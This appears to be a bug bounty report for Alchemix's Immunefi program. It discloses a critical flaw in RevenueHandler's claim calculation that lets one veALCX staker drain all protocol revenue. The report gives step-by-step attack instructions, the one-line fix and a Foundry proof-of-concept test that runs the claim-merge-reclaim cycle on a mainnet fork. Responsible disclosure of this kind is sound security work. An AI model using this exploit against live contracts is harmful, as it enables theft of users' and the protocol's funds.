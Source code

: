 
# Stealing all revenue from the Alchemix protocol

Submitted on Sun May 19 2024 21:18:32 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31472

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro

The `RevenueHandler` receives all revenue from the Alchemix protocol, and allows *veALCX stakers* to claim it.

This report shows how 1 malicious staker can steal all funds in the `RevenueHandler`.

A coded Proof of Concept was added to this report.

## Vulnerability Details

In report **30800** we discover how to steal FLUX by *claiming* rewards, then *merging staked positions* and *re-claiming* with an inflated balance.

For the past 14 days, we wondered how to execute a similar attack vector but to steal all revenue from the Alchemix protocol inside the `RevenueHandler`. Today we found a flag in the code that makes it possible.

### The vulnerable function

The bug is in the internal function `_claimable(..)` of `RevenueHandler`. Here's the relevant part:

```javascript
function _claimable(uint256 tokenId, address token) internal view returns (uint256) {

		// Some code here was removed for simplicity...

		for (
				uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
				epochTimestamp <= currentEpoch;
				epochTimestamp += WEEK
		) {
				uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
				if (epochTotalVeSupply == 0) continue;
				uint256 epochRevenue = epochRevenues[epochTimestamp][token];
				uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
				totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
		}
		return totalClaimable + userCheckpoints[tokenId][token].unclaimed;
}
```
> Github link: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol#L297-L326

The "`for`" loop distributes rewards until the `epochTimestamp` is less **OR EQUAL** than the timestamp for the current epoch.

Transferring rewards to the owner of a veALCX position based on the current balance of the lock is a mistake because veALCX positions can be merged with almost empty positions, allowing for an infinite claiming-merging-reclaiming cycle until no funds are left in the `RevenueHandler`.

The vulnerability can be fixed by replacing `epochTimestamp <= currentEpoch` with `epochTimestamp < currentEpoch`.

### Attack Vector Explained

**Step 1-** Batman and Superman create two `veALCX` Locks, each with **1e18** BPT tokens.

**Step 2-** Joker creates 2 locks, one of them with **1e18** BPT and the second with **1 WEI** of BPT.

> The current timestamp is `1682553635`. During the next blocks an arbitrary amount of revenue is collected by the RevenueHandler, for this example let's say it is `2000e18`.

**Step 3-** Time moves forward to a new epoch, the current timestamp is `1683763200`, and Joker creates a checkpoint in the RevenueHandler and VotingEscrow by calling:
```
revenueHandler.checkpoint();
veALCX.checkpoint();
```

> Right now, the revenue tokens Joker can claim with his lock of **1e18** BPTs is `668036131103950037396`, and for his second lock with **1 WEI** BPT is `0`.
>
> Therefore, the total reward he can claim for his two locks is `668036131103950037396 + 0 = 668036131103950037396`.

**Step 4-** Joker claims all rewards for his **1e18** lock.

**Step 5-** Joker merges the balance of his **1e18** lock with his **1 WEI** lock.

**Step 6-** Joker claims all rewards for his second lock (with an inflated balance).

> Joker's rewards balance is now `1336073005660618375927` instead of `668036131103950037396`.

This can be repeated with more almost-empty locks to drain the protocol fully.

## Impact Details
Stealing all revenue from the Alchemix protocol


        
## Proof of concept
## Proof of Concept

In the `RevenueHandlerTest ` paste this test and run it with the same timestamp and block used in the test suite.

Run test with:
``` 
forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/{YOUR_API_KEY} --match-test "testBugInClaim" --fork-block-number 17133822 -vv
```

PoC:
```
		function testBugInClaim() external {

				console2.log(block.timestamp);

				uint256 _tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
				uint256 _tokenId2 = createVeAlcx(admin, 1, MAXTIME, true);
				uint256 _tokenId3 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);
				uint256 _tokenId4 = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

				hevm.warp(block.timestamp + (ONE_EPOCH_TIME - 35)); // Current timestamp plus (2 weeks minus 35 seconds)
				hevm.roll(block.number + ONE_EPOCH_BLOCKS);

				// We accrue revenue
				uint256 revAmt = 2000e18;
				_accrueRevenue(dai, revAmt);

				// Then we checkpoint
				revenueHandler.checkpoint();
				veALCX.checkpoint();

				console2.log("alUSD balance before:", IERC20(alusd).balanceOf(admin)); // 0

				console2.log("Claimable for _tokenId1:", revenueHandler.claimable(_tokenId1, alusd)); // 668036131103950037396
				console2.log("Claimable for _tokenId2:", revenueHandler.claimable(_tokenId2, alusd)); // 0
				console2.log("Balance after claiming should be _tokenId1 + _tokenId2 = ", revenueHandler.claimable(_tokenId1, alusd) + revenueHandler.claimable(_tokenId2, alusd));

				hevm.startPrank(admin);

				// Claim _tokenId1
				revenueHandler.claim(_tokenId1, alusd, address(0), revenueHandler.claimable(_tokenId1, alusd), admin);

				// Merge _tokenId1 and _tokenId2
				veALCX.merge(_tokenId1, _tokenId2);

				// Claim _tokenId2
				revenueHandler.claim(_tokenId2, alusd, address(0), revenueHandler.claimable(_tokenId2, alusd), admin);

				hevm.stopPrank();

				console2.log("Actual finanl balance:", IERC20(alusd).balanceOf(admin));
    }

```